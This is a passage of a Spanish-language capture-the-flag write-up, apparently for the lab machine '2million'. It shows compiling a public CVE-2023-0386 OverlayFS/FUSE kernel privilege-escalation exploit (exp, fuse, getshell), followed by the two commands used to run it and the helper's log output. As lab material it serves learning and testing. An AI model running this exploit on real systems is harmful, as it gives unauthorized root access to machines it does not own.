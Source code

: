 ```bash
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:~/CVE-2023-0386$ ll
total 1456
drwxr-xr-x 5 admin admin    4096 May 19 03:52 ./
drwxr-xr-x 5 admin admin    4096 May 19 03:51 ../
-rwxrwxr-x 1 admin admin   17160 May 19 03:52 exp*
-rw-r--r-- 1 admin admin    3093 May 19 03:34 exp.c
-rwxrwxr-x 1 admin admin 1407736 May 19 03:52 fuse*
-rw-r--r-- 1 admin admin    5616 May 19 03:34 fuse.c
-rwxrwxr-x 1 admin admin   16096 May 19 03:52 gc*
-rw-r--r-- 1 admin admin     549 May 19 03:34 getshell.c
drwxr-xr-x 8 admin admin    4096 May 19 03:34 .git/
-rw-r--r-- 1 admin admin     150 May 19 03:34 Makefile
drwxr-xr-x 2 admin admin    4096 May 19 03:34 ovlcap/
-rw-r--r-- 1 admin admin     180 May 19 03:34 README.md
drwxr-xr-x 2 admin admin    4096 May 19 03:34 test/
```

De acuerdo con el exploit, abrimos 2 terminales y en una ejecutamos `./fuse ./ovlcap/lower ./gc` y en otra `./exp`:

```bash
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
```